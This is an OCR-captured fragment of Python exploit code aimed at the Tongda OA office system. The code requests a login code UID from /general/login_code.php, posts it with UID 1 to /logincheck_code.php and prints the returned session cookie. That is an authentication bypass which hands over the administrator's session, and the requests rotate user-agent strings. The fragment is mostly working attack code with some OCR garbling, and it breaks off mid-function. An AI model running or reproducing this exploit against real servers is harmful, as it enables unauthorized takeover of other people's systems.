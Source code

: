 ```
“Mozilla/5.0 (iPad; U; CPU OS 4_2_1 like Mac OS X; zh-cn) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8C148 Safari/6533.18.5”,

“Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0b13pre) Gecko/20110307 Firefox/4.0b13pre”,

“Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:16.0) Gecko/20100101 Firefox/16.0”,

“Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11”,

“Mozilla/5.0 (X11; U; Linux x86_64; zh-CN; rv:1.9.2.10) Gecko/20100922 Ubuntu/10.10 (maverick) Firefox/3.6.10”

]

self.payload_url_uid = ‘/general/login_code.php’

self.payload_url_cookie = ‘/logincheck_code.php’

self.headers= {‘headers’:random.choice(self.user_agent)}

self.vulhub = False

```
def get_tongda_uid(self):
    url =self.url+self.payload_url_uid

    r = requests.get(url=url,headers=self.headers,verify=False).text
    print('[*] Checking current URL UID' )
    uid_txt =r.split('code_uid')
    uid_compile = re.compile(r'"({.*})"')
    try:
        get_uid = re.findall(uid_compile,r)
        if len(get_uid) &gt; 0:
            print('【+】 Get current uid successfully',get_uid[0])
            self.vulhub = True
            return get_uid
        else:
            print('[-] Failed to get current UID')

    except Exception as error:
        pass

def get_tongda_cookies(self):
    url =self.url +self.payload_url_cookie
    data = {'CODEUID':self.get_tongda_uid(),'UID':1}
    r =requests.post(url,data=data,headers =self.headers,verify=False)
    try:
        if r.headers['Set-Cookie'] != None and self.vulhub != False:
           tongda_cookie =r.headers['Set-Cookie']
           print('【+】 Get session of current URL successfully',tongda_cookie)
